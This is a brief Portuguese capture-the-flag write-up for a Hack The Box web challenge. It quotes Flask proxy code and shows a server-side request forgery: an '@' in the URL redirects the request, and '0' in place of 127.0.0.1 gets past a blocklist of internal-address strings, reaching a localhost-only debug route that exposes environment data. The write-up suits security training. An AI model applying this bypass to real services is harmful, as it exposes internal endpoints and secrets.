 #ctf 

https://app.hackthebox.com/challenges/ProxyAsAService

Para conseguir pegar a flag, precisamos acessar a rota `/debug/environment`. Porém ela só pode ser acessada localmente.

```python
def is_from_localhost(func):
	@functools.wraps(func)
	def check_ip(*args, **kwargs):
		if request.remote_addr != '127.0.0.1':
			return abort(403)
		return func(*args, **kwargs)
	return check_ip
```

A rota principal concatena o que está na query `url` com o `SITE_NAME`. 

```python
SITE_NAME = 'reddit.com'

@proxy_api.route('/', methods=['GET', 'POST'])
def proxy():
	url = request.args.get('url')

	if not url:
		cat_meme_subreddits = [
			'/r/cats/',
			'/r/catpictures',
			'/r/catvideos/'
		]
	
		random_subreddit = random.choice(cat_meme_subreddits)
		return redirect(url_for('.proxy', url=random_subreddit))

	target_url = f'http://{SITE_NAME}{url}'
	response, headers = proxy_req(target_url)
	return Response(response.content, response.status_code, headers.items())
```

É possível burlar essa concatenação e fazer o app acessar o nosso site manipulando a url com `@`, assim a requisição vai para o que veio depois do sinal: ``

```
http://reddit.com@127.0.0.1:1337/debug/environment
```

Ainda há mais um passo para fazer, pois ao usar essa url é retornado 403. A rota principal verifica se na url contém as seguintes strings: `RESTRICTED_URLS = ['localhost', '127.', '192.168.', '10.', '172.']`. Então é necessário burlar e uma forma simples é trocar `127.0.0.1` para 0

```
/?url=@0:1337/debug/environment
```

GG